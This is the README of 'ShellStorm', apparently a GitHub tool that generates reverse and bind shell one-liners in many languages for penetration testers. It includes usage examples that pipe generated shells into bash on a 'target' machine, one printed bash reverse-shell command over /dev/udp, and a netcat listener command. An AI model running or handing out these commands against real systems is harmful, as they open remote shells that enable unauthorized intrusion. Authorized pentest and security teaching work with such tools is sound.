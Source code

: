 # ShellStorm
Automatic reverse/bind shell generator cheat sheet.  

A compilation of knowledge over the years from many pentesters that you will recognize  
after reading the source code to make the process of creating reverse and bind connections easier  
for cybersecurity analysts.  

![alt text](https://github.com/0bfxgh0st/ShellStorm/blob/main/screenshots/Shellstorm.gif)

* Install requirements for generate **WAR** package.  
<pre>sudo apt-get update -y && sudo apt-get install default-jdk -y</pre>

## Available languages/programs  
<pre>
asp
awk
bash
c
cpan
dart
gawk
golang
groovy
java
jsp
lua
nc
nc-nef (netcat without -e flag, mkfifo)
nodejs
openssl
perl
php
php-daemon
php-simple
ps1
ps1-ds (powershell download string)
python
ruby
sbd
socat
telnet
war
</pre>

# TL;DR
## Try go further
* In some cases you can download shellstorm in any 'target' machine with Linux kernel (or WSL) and execute it by piping it if you prefer.  
<pre>
bash shellstorm.sh bash 10.2.54.13 1337 | bash
</pre>

* Do you want UDP shell? No problem, 'sed' it.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g'
Output:
bash -c "bash -i >& /dev/udp/127.0.0.1/1337 0>&1"
</pre>

* You can pipe it too.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g' | bash
Note:  
Remember use -u (udp) flag in netcat listener as following:  
nc -u -lvp 1337
</pre>

### Some relevant sources:  
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md</a>
